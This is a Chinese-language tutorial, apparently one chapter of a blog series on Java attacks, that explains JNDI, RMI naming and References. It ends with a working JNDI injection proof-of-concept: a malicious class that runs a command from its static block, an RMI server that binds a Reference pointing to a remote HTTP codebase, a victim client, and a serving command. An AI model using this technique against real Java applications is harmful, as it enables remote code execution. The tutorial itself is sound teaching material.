








### 0x01 前言

我们在上一章《攻击rmi的方式》中提到了rmi的一大特性——动态类加载。而jndi注入就是利用的动态类加载完成攻击的。在谈jndi注入之前，我们先来看看关于jndi的基础知识

### 0x02 jndi是个啥

jndi的全称为Java Naming and Directory Interface（java命名和目录接口）SUN公司提供的一种标准的Java命名系统接口，JNDI提供统一的客户端API，通过不同的服务供应接口(SPI)的实现，由管理者将JNDI API映射为特定的命名服务和目录系统，使得Java应用程序可以和这些命名服务和目录服务之间进行交互、如图



上面提到了命名服务与目录服务，他们又是什么呢?

##### 命名服务
命名服务是一种简单的键值对绑定，可以通过键名检索值，RMI就是典型的命名服务

##### 目录服务

目录服务是命名服务的拓展。它与命名服务的区别在于它可以通过对象属性来检索对象，这么说可能不太好理解，我们举个例子：比如你要在某个学校里里找某个人，那么会通过：年级->班级->姓名这种方式来查找，年级、班级、姓名这些就是某个人的属性，这种层级关系就很像目录关系，所以这种存储对象的方式就叫目录服务。LDAP是典型的目录服务，这个我们暂且还没接触到，后文会提及

其实，仔细一琢磨就会感觉其实命名服务与目录服务的本质是一样的，都是通过键来查找对象，只不过目录服务的键要灵活且复杂一点。


在一开始很多人都会被jndi、rmi这些词汇搞的晕头转向，而且很多文章中提到了可以用jndi调用rmi,就更容易让人发昏了。我们只要知道jndi是**对各种访问目录服务的逻辑进行了再封装**,也就是以前我们访问rmi与ldap要写的代码差别很大，但是有了jndi这一层，我们就可以用jndi的方式来轻松访问rmi或者ldap服务，这样访问不同的服务的代码实现基本是一样的。一图胜千言：



从图中可以看到jndi在访问rmi时只是传了一个键foo过去，然后rmi服务端返回了一个对象，访问ldap这种目录服务室，传过去的字符串比较复杂，包含了多个键值对，这些键值对就是对象的属性，LDAP将根据这些属性来判断到底返回哪个对象.

### 0x03 jndi 代码实现

在JNDI中提供了绑定和查找的方法：
- bind：将名称绑定到对象中；
- lookup：通过名字检索执行的对象；

下面的demo将演示如何用jndi访问rmi服务：


先实现一个接口

```java
import java.rmi.Remote;
import java.rmi.RemoteException;

public interface IHello extends Remote {
    public String sayHello(String name) throws RemoteException;
}
```

然后创建一个类实现上面的接口，这个类的实例一会将要被绑定到rmi注册表中

```java
import java.rmi.RemoteException;
import java.rmi.server.UnicastRemoteObject;

public class IHelloImpl extends UnicastRemoteObject implements IHello {
    protected IHelloImpl() throws RemoteException {
        super();
    }

    @Override
    public String sayHello(String name) throws RemoteException {
        return "Hello " + name;
    }
}
```

上面的都是简单的创建一个远程对象，和之前rmi创建远程对象的要求是一样的，下面我们创建一个类实现对象的绑定，以及远程对象的调用

```java
import javax.naming.Context;
import javax.naming.InitialContext;
import java.rmi.registry.LocateRegistry;
import java.rmi.registry.Registry;
import java.util.Properties;

public class CallService {
    public static void main(String[] args) throws Exception{

        //配置JNDI工厂和JNDI的url和端口。如果没有配置这些信息，会出现NoInitialContextException异常
        Properties env = new Properties();
        env.put(Context.INITIAL_CONTEXT_FACTORY, "com.sun.jndi.rmi.registry.RegistryContextFactory");
        env.put(Context.PROVIDER_URL, "rmi://localhost:1099");

        // 创建初始化环境
        Context ctx = new InitialContext(env);

        // 创建一个rmi映射表
        Registry registry = LocateRegistry.createRegistry(1099);
        // 创建一个对象
        IHello hello = new IHelloImpl();
        // 将对象绑定到rmi注册表
        registry.bind("hello", hello);

        //  jndi的方式获取远程对象
        IHello rhello = (IHello) ctx.lookup("rmi://localhost:1099/hello");
        // 调用远程对象的方法
        System.out.println(rhello.sayHello("axin"));
    }
}
```

成功调用远程对象的sayHello方法



由于上面的代码将服务端与客户端写到了一起，所以看着不那么清晰，我看到很多文章里吧JNDI工厂初始化这一步操作划分到了服务端，我觉得是错误的，配置jndi工厂与jndi的url和端口应该是客户端的事情。

> ps：可以对比一下前几章的rmi demo与这里的jndi demo访问远程对象的区别，加深理解 


### 0x04 JNDI动态协议转换

我们上面的demo提前配置了jndi的初始化环境，还配置了Context.PROVIDER_URL，这个属性指定了到哪里加载本地没有的类，所以，上面的demo中
`ctk.lookup("rmi://localhost:1099/hello")`这一处代码改为`ctk.lookup("hello")`也是没啥问题的。

那么动态协议转换是个什么意思呢？其实就是说即使提前配置了Context.PROVIDER_URL属性，当我们调用lookup()方法时，如果lookup方法的参数像demo中那样是一个uri地址，那么客户端就会去lookup()方法参数指定的uri中加载远程对象，而不是去Context.PROVIDER_URL设置的地址去加载对象(如果感兴趣可以跟一下源码，可以看到具体的实现）。

正是因为有这个特性，才导致当lookup()方法的参数可控时，攻击者可以通过提供一个恶意的url地址来控制受害者加载攻击者指定的恶意类。

但是你以为直接让受害者去攻击者指定的rmi注册表加载一个类回来就能完成攻击吗，是不行的，因为受害者本地没有攻击者提供的类的class文件，所以是调用不了方法的，所以我们需要借助接下来要提到的东西


### 0x05 JNDI Naming Reference

Reference类表示对存在于命名/目录系统以外的对象的引用。如果远程获取 RMI 服务上的对象为 Reference 类或者其子类，则在客户端获取到远程对象存根实例时，可以从其他服务器上加载 class 文件来进行实例化。

Java为了将Object对象存储在Naming或Directory服务下，提供了Naming Reference功能，对象可以通过绑定Reference存储在Naming或Directory服务下，比如RMI、LDAP等。

在使用Reference时，我们可以直接将对象传入构造方法中，当被调用时，对象的方法就会被触发，创建Reference实例时几个比较关键的属性：

-  className：远程加载时所使用的类名；
-  classFactory：加载的class中需要实例化类的名称；
-  classFactoryLocation：远程加载类的地址，提供classes数据的地址可以是file/ftp/http等协议；

当然，要把一个对象绑定到rmi注册表中，这个对象需要继承UnicastRemoteObject，但是Reference没有继承它，所以我们还需要封装一下它，用 ReferenceWrapper 包裹一下Reference实例对象，这样就可以将其绑定到rmi注册表，并被远程访问到了，demo如下：

```java
// 第一个参数是远程加载时所使用的类名， 第二个参数是要加载的类的完整类名(这两个参数可能有点让人难以琢磨，往下看你就明白了），第三个参数就是远程class文件存放的地址了
Reference refObj = new Reference("refClassName", "insClassName", "http://axin.com:6666/"); 
ReferenceWrapper refObjWrapper = new ReferenceWrapper(refObj);
registry.bind("refObj", refObjWrapper);
```

当有客户端通过lookup("refObj")获取远程对象时，获取的是一个Reference存根（Stub),由于是Reference的存根，所以客户端会现在本地的classpath中去检查是否存在类refClassName，如果不存在则去指定的url（http://axin.com:6666/refClassName.class）动态加载，并且调用insClassName的**无参构造函数**，所以可以在构造函数里写恶意代码。当然除了在无参构造函数中写利用代码，还可以利用java的static代码块来写恶意代码，因为static代码块的代码在class文件被加载过后就会立即执行，且只执行一次。

了解更多关于static代码块，参考：https://www.cnblogs.com/panjun-donet/archive/2010/08/10/1796209.html

### 0x06 JNDI注入


##### jndi注入原理

就是将恶意的Reference类绑定在RMI注册表中，其中恶意引用指向远程恶意的class文件，当用户在JNDI客户端的lookup()函数参数外部可控或Reference类构造方法的classFactoryLocation参数外部可控时，会使用户的JNDI客户端访问RMI注册表中绑定的恶意Reference类，从而加载远程服务器上的恶意class文件在客户端本地执行，最终实现JNDI注入攻击导致远程代码执行




##### jndi注入的利用条件

- 客户端的lookup()方法的参数可控
- 服务端在使用Reference时，classFactoryLocation参数可控～

上面两个都是在编写程序时可能存在的脆弱点（任意一个满足就行），除此之外，jdk版本在jndi注入中也起着至关重要的作用，而且不同的攻击响亮对jdk的版本要求也不一致，这里就全部列出来：


- JDK 6u45、7u21之后：java.rmi.server.useCodebaseOnly的默认值被设置为true。当该值为true时，将禁用自动加载远程类文件，仅从CLASSPATH和当前JVM的java.rmi.server.codebase指定路径加载类文件。使用这个属性来防止客户端VM从其他Codebase地址上动态加载类，增加了RMI ClassLoader的安全性。

 - JDK 6u141、7u131、8u121之后：增加了com.sun.jndi.rmi.object.trustURLCodebase选项，默认为false，禁止RMI和CORBA协议使用远程codebase的选项，因此RMI和CORBA在以上的JDK版本上已经无法触发该漏洞，但依然可以通过指定URI为LDAP协议来进行JNDI注入攻击。

- JDK 6u211、7u201、8u191之后：增加了com.sun.jndi.ldap.object.trustURLCodebase选项，默认为false，禁止LDAP协议使用远程codebase的选项，把LDAP协议的攻击途径也给禁了。


##### jndi注入 demo

- 创建一个恶意对象

```java
import javax.lang.model.element.Name;
import javax.naming.Context;
import java.io.BufferedInputStream;
import java.io.BufferedReader;
import java.io.IOException;
import java.io.InputStreamReader;
import java.util.HashMap;

public class EvilObj {
    public static void exec(String cmd) throws IOException {
        String sb = "";
        BufferedInputStream bufferedInputStream = new BufferedInputStream(Runtime.getRuntime().exec(cmd).getInputStream());
        BufferedReader inBr = new BufferedReader(new InputStreamReader(bufferedInputStream));
        String lineStr;
        while((lineStr = inBr.readLine()) != null){
            sb += lineStr+"\n";

        }
        inBr.close();
        inBr.close();
    }

    public Object getObjectInstance(Object obj, Name name, Context context, HashMap<?, ?> environment) throws Exception{
        return null;
    }

    static {
        try{
            exec("gnome-calculator");
        }catch (Exception e){
            e.printStackTrace();
        }
    }
}
```

可以看到这里利用的是static代码块执行命令

- 创建rmi服务端，绑定恶意的Reference到rmi注册表

```java
import com.sun.jndi.rmi.registry.ReferenceWrapper;

import javax.naming.NamingException;
import javax.naming.Reference;
import java.rmi.AlreadyBoundException;
import java.rmi.RemoteException;
import java.rmi.registry.LocateRegistry;
import java.rmi.registry.Registry;

public class Server {
    public static void main(String[] args) throws RemoteException, NamingException, AlreadyBoundException {
        Registry registry = LocateRegistry.createRegistry(1099);
        String url = "http://127.0.0.1:6666/";
        System.out.println("Create RMI registry on port 1099");
        Reference reference = new Reference("EvilObj", "EvilObj", url);
        ReferenceWrapper referenceWrapper = new ReferenceWrapper(reference);
        registry.bind("evil", referenceWrapper);
    }

}
```

- 创建一个客户端（受害者）

```java
import javax.naming.Context;
import javax.naming.InitialContext;
import javax.naming.NamingException;

public class Client {
    public static void main(String[] args) throws NamingException {
        Context context = new InitialContext();
        context.lookup("rmi://localhost:1099/evil");
    }
}
```

可以看到这里的lookup方法的参数是指向我设定的恶意rmi地址的。


然后先编译该项目，生成class文件，然后在class文件目录下用python启动一个简单的HTTP Server:

`python -m SimpleHTTPServer 6666`

执行上述命令就会在6666端口、当前目录下运行一个HTTP  Server：




然后运行Server端，启动rmi registry服务



最后运行客户端(受害者)：



成功弹出计算器。注意,我这里用到的jdk版本为jdk1.7.0_80，下面是rmi动态调用的一个流程




### 0x07 其他

放一些参考文章：

https://wulidecade.cn/2019/03/25/%E6%B5%85%E8%B0%88JNDI%E6%B3%A8%E5%85%A5%E4%B8%8Ejava%E5%8F%8D%E5%BA%8F%E5%88%97%E5%8C%96%E6%BC%8F%E6%B4%9E/

https://www.mi1k7ea.com/2019/09/15/%E6%B5%85%E6%9E%90JNDI%E6%B3%A8%E5%85%A5/

https://xz.aliyun.com/t/6633#toc-5

https://paper.seebug.org/417/

下一章，我们来看一下fastjson的反序列化，其中就会利用到jndi这一攻击手法

